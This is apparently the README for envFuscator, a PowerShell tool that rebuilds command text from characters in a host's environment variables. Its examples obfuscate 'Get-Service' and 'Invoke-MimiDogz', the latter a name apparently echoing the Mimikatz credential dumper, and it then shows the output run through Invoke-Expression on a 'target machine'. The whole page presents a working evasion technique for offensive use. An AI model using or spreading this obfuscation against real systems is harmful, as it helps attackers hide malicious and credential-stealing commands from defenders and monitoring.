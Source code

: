 ## envFuscator  
  
#### Reconstructs command text by referencing env value character indexes. Can be run live and pull values directly from a host's env variables or alternatively by importing a csv file export of env variables from a target system.  
  
##### Parameter cmd  
Indicates the command being obfuscated.  
  
##### Parameter csvFile  
Optionally specifies a csv file to read env variables from.  
  
##### Example  
```powershell
.\envFuscator.ps1 -cmd Get-Service  
  
${env:ENV_PATH}[24] + ${env:PUBLIC}[5] + ${env:TOOLSEXT_PATH}[31] + ${env:Path}[255] + ${env:Path}[3] + ${env:CommonProgramFiles(x86)}[4] + ${env:ELGO_PATH_V11_0}[5] + ${env:Path}[13] + ${env:USERPROFILE}[5] + ${env:LOCALAPPDATA}[4] + ${env:USERNAME}[2]  
```
  
##### Example  
```powershell
.\envFuscator.ps1 -cmd Invoke-MimiDogz -csvFile C:\Data\env.csv  
  
${env:APP_PROFILE_STRING}[0] + ${env:DriverData}[5] + ${env:JRECOREROOT}[47] + ${env:IMGSOURCE}[5] + ${env:OBO_PATH}[42] + ${env:ChocolateyInstall}[23] + ${env:Path}[255] + ${env:PATHEXT}[3] + ${env:SetaBase}[12] + ${env:ChocolateyInstall}[9] + ${env:DABASAMPLES_ROOT}[30] + ${env:ChocolateyInstall}[10] + ${env:OneDrive}[12] + ${env:DABA_PATH}[6] + 'z'  

```
  
The resulting obfuscated output can be used to run commands on the target machine by wrapping with Invoke-Expression or a similar method.  
  
```powershell
iex ( ${env:APP_PROFILE_STRING}[0] + ${env:DriverData}[5] + ${env:JRECOREROOT}[47] + ${env:IMGSOURCE}[5] + ${env:OBO_PATH}[42] + ${env:ChocolateyInstall}[23] + ${env:Path}[255] + ${env:PATHEXT}[3] + ${env:SetaBase}[12] + ${env:ChocolateyInstall}[9] + ${env:DABASAMPLES_ROOT}[30] + ${env:ChocolateyInstall}[10] + ${env:OneDrive}[12] + ${env:DABA_PATH}[6] + 'z' )  
```
